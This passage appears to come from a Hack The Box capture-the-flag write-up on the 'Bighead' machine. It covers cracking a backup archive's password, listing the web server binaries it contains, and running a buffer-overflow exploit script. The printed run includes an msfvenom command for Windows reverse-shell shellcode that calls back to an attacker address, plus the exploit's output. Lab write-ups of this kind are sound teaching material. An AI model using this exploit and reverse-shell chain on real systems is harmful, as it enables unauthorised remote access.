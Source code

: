 ```
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

Unzip with `7z` and password “bighead”, and it works. Now I have the same config files, but also an exe and a dll:

```

root@kali# find BHWS_Backup/ -type f
BHWS_Backup/bHeadSvr.dll
BHWS_Backup/conf/uwsgi_params
BHWS_Backup/conf/nginx.conf
BHWS_Backup/conf/win-utf
BHWS_Backup/conf/scgi_params
BHWS_Backup/conf/koi-win
BHWS_Backup/conf/koi-utf
BHWS_Backup/conf/mime.types
BHWS_Backup/conf/fastcgi_params
BHWS_Backup/conf/fastcgi.conf
BHWS_Backup/BigheadWebSvr.exe

```

### Buffer Overflow

Analysis will reveal that there’s a buffer overflow in the url handler for the web server that I can use to get execution. I’ll explore that and write an exploit in a [companion post](/2019/05/04/htb-bighead-bof.html). By the end of that post, I have a script I can run to get a shell.

I can run my script:

```

root@kali# python pwn_bighead.py dev.bighead.htb 80 10.10.14.14 443
[*] Generating shellcode:
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXIT_FUNC=THREAD -a x86 --platform windows -b "\x00\x0a\x0d" -f python -v shellcode -o sc.py
[+] Shellcode generated successfully
[*] Sending payload 5 times
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Payload sent.
[*] Sleeping 1 second.
[*] Sending overflow + egghunter.
[*] Expect callback in 0-15 minutes to 10.10.14.14:443.
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80

```
